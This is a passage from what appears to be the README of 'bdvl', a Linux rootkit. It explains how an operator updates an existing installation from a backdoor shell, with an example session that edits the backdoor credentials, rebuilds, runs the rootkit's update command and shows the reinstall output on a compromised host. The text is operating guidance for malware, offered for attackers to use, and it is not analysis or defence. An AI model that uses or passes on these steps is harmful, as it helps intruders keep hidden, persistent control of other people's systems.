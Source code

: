 <hr>

## 3. Updating existing installations
 * Once compiled & ready to go, the header file for your configuration will be in the `build/` directory.
 * You may want to keep this, just in case.

### 3.1. Seamless updates
 * The **newest** version of bdvl comes with an option which allows for seamless updates to the rootkit on systems which already have it installed.
 * You can access this via the rootkit's [backdoor utilities](#41-backdoor-utility-commands) when in a magic shell.
 * The command & required arguments are as follows: `./bdv update /path/to/newbdvl.so*`
 * When updating the target installation, bdvl will read necessary settings from the first `bdvl.so` in argv.
 * With the implementation of this, you can effortlessly enable/disable rootkit features, change backdoor credentials & whatever else, on the fly.
 * When using this option, directories & files from the previous/current installation are removed.
   * There is an appropriate warning to let you know this before bdvl goes through with updating the installation.
 * With this method you do not need to worry about using the same paths, magic GID, or any other setting for that matter.
   * Other than your backdoor credentials, if you want to keep them the same that is...

#### 3.1.1. Example
 * In this example, I am in a backdoor shell & have this repository downloaded & extracted in my/the rootkit's home directory.
 * For brevity I've removed unimportant output from the example. (`-snip-` is \[unimportant] text I've removed)
```
 # nano setup.py  # change backdoor login credentials?
 # make

-snip-

 # ./bdv update build/bdvl.so.armv7l

-snip, previous/current rootkit stuff is removed-

If you want to get noticed, you've got to mingle.
No SELinux.
Creating installation directory.
Copied: bdvl.so.armv7l
Installed.


DONE! RECONNECT!!
Killed
Connection to remule closed.

```
 * Upon completion the new installation of bdvl will be in effect, as will anything you changed.
